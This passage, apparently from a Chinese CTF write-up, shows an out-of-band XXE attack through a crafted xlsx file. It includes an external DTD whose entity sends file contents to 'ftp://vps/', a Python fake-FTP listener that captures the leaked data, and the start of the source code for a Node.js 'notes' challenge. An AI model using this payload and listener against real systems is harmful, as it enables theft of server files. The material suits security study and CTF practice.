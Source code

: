 在vps上的web目录下面放置一个``ext.dtd``, 内容如下:

```
<!ENTITY % param3 "<!ENTITY &#37; exfil SYSTEM 'ftp://vps/%data3;'>">
```

vps上开启ftp监听脚本, 脚本如下

```python
#!/usr/env/python
from __future__ import print_function
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0',21))
s.listen(1)
print('XXE-FTP listening ')
conn,addr = s.accept()
print('Connected by %s',addr)
conn.sendall('220 Staal XXE-FTP\r\n')
stop = False
while not stop:
    dp = str(conn.recv(1024))
    if dp.find("USER") > -1:
        conn.sendall("331 password please - version check\r\n")
    else:
        conn.sendall("230 more data please!\r\n")
    if dp.find("RETR")==0 or dp.find("QUIT")==0:
        stop = True
    if dp.find("CWD") > -1:
        print(dp.replace('CWD ','/',1).replace('\r\n',''),end='')
    else:
        print(dp)

conn.close()
s.close()
```



将修改内容后的文档文件重新全部压缩成xlsx文档, 发送, vps有回显

![image-20200511203059545](/images/image-20200511203059545.png)

注意, 直接nc 21端口不会看到数据, 至于为什么以后再研究一下

## notes

源码

```javascript
var express = require('express');
var path = require('path');
const undefsafe = require('undefsafe');
const { exec } = require('child_process');


var app = express();
class Notes {
    constructor() {
        this.owner = "whoknows";
        this.num = 0;
        this.note_list = {};
    }

    write_note(author, raw_note) {
        this.note_list[(this.num++).toString()] = {"author": author,"raw_note":raw_note};
```